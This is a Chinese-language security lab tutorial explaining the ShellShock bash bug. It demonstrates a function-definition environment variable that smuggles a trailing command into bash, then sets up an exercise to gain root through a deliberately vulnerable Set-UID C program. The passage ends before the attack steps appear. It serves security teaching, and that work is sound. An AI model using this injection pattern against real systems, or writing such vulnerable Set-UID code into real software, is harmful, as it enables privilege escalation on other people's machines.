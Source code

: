 这个时候的 Bash 的环境变量：

```
KEY = foo
VALUE = () { echo bar; } 
```

来看看 ShellShock 漏洞的真身：

```
export foo=’() { :; }; echo Hello World’ 
bash
>Hello World 
```

为什么调用 bash 的时候输出 Hello World 了呢？瞧瞧他内部的情况：

```
KEY = foo
VALUE = () { :; }; echo Hello World 
```

bash 读取了环境变量，在定义 foo 之后直接调用了后面的函数。 一旦调用 bash，自定义的语句就直接触发。

到了这，你有想到什么么？联系之前的 Set-UID 课程。

## 三、 实验内容

### 1.攻击 Set-UID 程序

本实验中，我们通过攻击 Set-UID 程序来获得 root 权限。 首先，确保安装了带有漏洞的 bash 版本，并让/bin/sh 指向/bin/bash.

```
$ sudo ln -sf /bin/bash /bin/sh 
```

请编译下面这段代码，并设置其为 Set-UID 程序，保证它的所有者是 root。我们知道 system()函数将调用"/bin/sh -c" 来运行指定的命令, 这也意味着/bin/bash 会被调用，你能够利用 shellshock 漏洞来获取权限么？

```
#include <stdio.h>
void main()
{
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
} 
```

我们注意到这里使用了 setuid(geteuid()) 来使 real uid = effective uid，这在 Set-UID 程序中不是普遍实践，但它确实有时会发生。 先自己试着 hack 一下：） …… …… …… …… …… …… 以下是 hack 过程。 ![](img/md0417740piN0V4s.jpg)
